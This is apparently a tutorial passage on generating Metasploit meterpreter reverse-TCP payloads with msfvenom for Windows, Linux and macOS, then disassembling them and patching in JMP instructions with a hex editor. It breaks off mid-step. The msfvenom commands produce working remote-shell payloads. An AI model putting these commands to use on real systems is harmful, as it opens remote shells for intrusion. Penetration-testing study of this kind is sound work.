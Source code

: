 ### **1. Understanding the Basics**

- **msfvenom**: A versatile payload generator provided by Metasploit. It allows you to create shellcode or payloads in various formats.
- **Binary Patching**: Modifying binary files after they've been generated. This can involve changing opcodes, inserting NOPs (No Operation instructions), or adding JMP instructions to alter execution flow.
- **JMP Instructions**: Used to change the flow of execution within a program. Common in shellcode to jump over certain parts of code or to insert custom logic.

### **2. Creating a Payload with msfvenom**

Start by creating a basic payload with `msfvenom`:

```bash
# For Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe -o shell.exe

# For Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf -o shell.elf

# For macOS
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f macho -o shell.macho
```

### **3. Disassemble the Binary**

To modify the binary, you first need to disassemble it. Tools like **Ghidra**, **Radare2**, **objdump**, or **IDA Pro** can be used:

```bash
# Using objdump
objdump -D -M intel shell.elf > shell.asm
```

Examine the output to locate where you might want to insert your custom JMP instructions or modify the shellcode.

### **4. Binary Patching with JMP Instructions**

You can manually insert a JMP instruction into the payload to alter its flow. The general steps are:

1. **Identify the Injection Point**: Locate where you want to insert the JMP in the disassembled code. This could be before the payload starts, after initialization, or within the shellcode.

2. **Calculate Offsets**: JMP instructions require you to calculate the correct offset to jump to. For example, `JMP SHORT` can jump up to 127 bytes forward or 128 bytes backward.

3. **Patch the Binary**: You can use a hex editor (like `HexFiend` for macOS or `HxD` for Windows) to manually patch the binary.

   Example:
   - Convert your desired JMP instruction to hex.
   - Insert it into the desired location in the binary.
